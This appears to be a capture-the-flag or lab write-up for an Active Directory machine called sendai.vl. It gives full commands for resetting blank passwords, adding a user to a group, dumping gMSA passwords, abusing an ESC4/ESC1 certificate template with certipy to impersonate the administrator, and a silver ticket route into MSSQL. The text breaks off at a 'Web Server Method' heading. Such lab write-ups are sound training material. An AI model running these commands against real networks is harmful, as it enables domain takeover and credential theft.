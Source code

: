 
# Enumeration
Using Rid bruteforce got the users:
![](attachment/56bf479b4e3d4f163ab37e7750d8d5b6.png)

Enumerating smb:![](attachment/863204d4e7328d96ee3f1576e0095b57.png)

Using blank password we get 2 password must change:
![](attachment/e0583e6ac1c57617ef45b9914719e000.png)
Now changing the password:
```
smbpasswd.py sendai.vl/Elliot.Yates:''@10.10.90.42 -newpass aditya123@
```


Using bloodhound:
![](attachment/da6f723dceebf1b4b1f08b018ac354e2.png)

Now following the path:
```
net rpc group addmem "admsvc" Elliot.Yates -U sendai.vl/Elliot.Yates -S sendai.vl
```
```
gMSADumper.py -u 'Elliot.Yates' -p 'aditya123@' -d 'sendai.vl'
```
![](attachment/b40fc1e06e432b39ecd27b892e55959f.png)
Now we can login to evil-winrm


Using privesccheck.ps1:
![](attachment/017ce8ba4efd90f8bbc0be826c0a15af.png)
We get the creds for a user called clifford.davey

Now using certipy:
```
certipy find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.10.90.42 -stdout -vulnerable
```
We find an esc4 vulnerable certificate:
![](attachment/5c17af0a16eba1a89b5c20780227a402.png)
Converting to ESC1 template:
```
certipy template -username 'clifford.davey'@sendai.vl -password RFmoB2WplgE_3p -template SendaiComputer -save-old
```
Now requesting key:
```
certipy req -u 'clifford.davey'@sendai.vl -p RFmoB2WplgE_3p -c 'sendai-DC-CA' -target 'sendai.vl' -template 'SendaiComputer' -upn 'administrator@sendai.vl' -dc-ip 10.10.90.42 -debug
```


# MSSQL Method
Now generating a silver ticket with [[Silver Ticket Attack]]
Using chisel to port forward 1433 to localhost.

Then using the ticket to login to mssql:
```
proxychains mssqlclient.py -k dc.sendai.vl
```
Now getting reverse shell we can execute juicypotato or GodPotato for admin

# Web Server Method